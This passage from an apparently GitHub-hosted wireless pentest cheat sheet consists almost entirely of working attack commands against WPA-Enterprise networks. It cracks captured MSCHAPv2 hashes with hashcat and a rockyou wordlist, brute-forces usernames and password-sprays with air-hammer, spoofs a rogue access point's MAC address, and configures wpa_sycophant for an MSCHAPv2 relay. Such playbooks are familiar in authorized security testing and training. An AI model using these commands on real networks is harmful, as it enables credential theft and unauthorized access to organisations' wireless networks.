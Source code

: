 #### Crack MSCHAPv2 Hashes

```bash
# Extract hashcat format from logs
cat logs/hostapd-eaphammer.log | grep hashcat | awk '{print $3}' >> hashcat.5500
hashcat -a 0 -m 5500 hashcat.5500 ~/rockyou-top100000.txt --force
```

### Credential Attacks

#### Username Bruteforce

```bash
cd ~/tools/air-hammer
echo '[DOMAIN\username]' > test.user
./air-hammer.py -i wlan3 -e [NETWORK_NAME] -p ~/rockyou-top100000.txt -u test.user
```

#### Password Spray

```bash
# Prepare domain user list
cat ~/top-usernames-shortlist.txt | awk '{print "[DOMAIN]\\" $1}' > ~/domain-users.txt

cd ~/tools/air-hammer
./air-hammer.py -i wlan4 -e [NETWORK_NAME] -P [PASSWORD] -u ~/domain-users.txt
```

### MSCHAPv2 Relay Attacks

#### Setup for Relay

```bash
# Set MAC address for rogue AP
systemctl stop network-manager
airmon-ng stop wlan1mon
ip link set wlan1 down
macchanger -m F0:9F:C2:00:00:00 wlan1
ip link set wlan1 up
```

#### Configure wpa_sycophant

```bash
cat > ~/tools/wpa_sycophant/relay.conf << EOF
network={
    ssid="[TARGET_NETWORK]"
    scan_ssid=1
    key_mgmt=WPA-EAP
    identity=""
    anonymous_identity=""
    password=""
    eap=PEAP
    phase1="crypto_binding=0 peaplabel=0"
    phase2="auth=MSCHAPV2"
    bssid_blacklist=F0:9F:C2:00:00:00
}
EOF
```
